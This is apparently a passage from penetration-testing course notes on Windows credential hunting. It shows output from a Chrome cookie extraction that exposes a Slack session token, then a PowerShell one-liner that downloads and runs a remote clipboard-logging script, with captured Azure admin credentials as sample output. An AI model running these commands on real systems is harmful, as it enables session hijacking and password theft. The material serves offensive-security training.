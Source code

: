 ```powershell-session
    "storeId": null,
    "value": "xoxd-5KK4K2RK2ZLs2sISUEBGUTxLO0dRD8y1wr0Mvst%2Bm7Vy24yiEC3NnxQra8uw6IYh2Q9prDawms%2FG72og092YE0URsfXzxHizC2OAGyzmIzh2j1JoMZNdoOaI9DpJ1Dlqrv8rORsOoRW4hnygmdR59w9Kl%2BLzXQshYIM4hJZgPktT0WOrXV83hNeTYg%3D%3D"
},
{
    "domain": ".slack.com",
    "hostOnly": false,
    "httpOnly": true,
    "name": "d-s",
    "path": "/",
    "sameSite": "lax",
    "secure": true,
    "session": true,
    "storeId": null,
    "value": "1659023172"
},

<SNIP>

]

[*] Finished Google Chrome extraction.

[*] Done.
```

## Clipboard

{% embed url="https://github.com/inguardians/Invoke-Clipboard" %}
script to extract user clipboard data.
{% endembed %}

**Monitor the Clipboard with PowerShell**

```powershell-session
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')
PS C:\htb> Invoke-ClipboardLogger
```

**Capture Credentials from the Clipboard with Invoke-ClipboardLogger**

```powershell-session
PS C:\htb> Invoke-ClipboardLogger

https://portal.azure.com

Administrator@something.com

Sup9rC0mpl2xPa$$ws0921lk
```
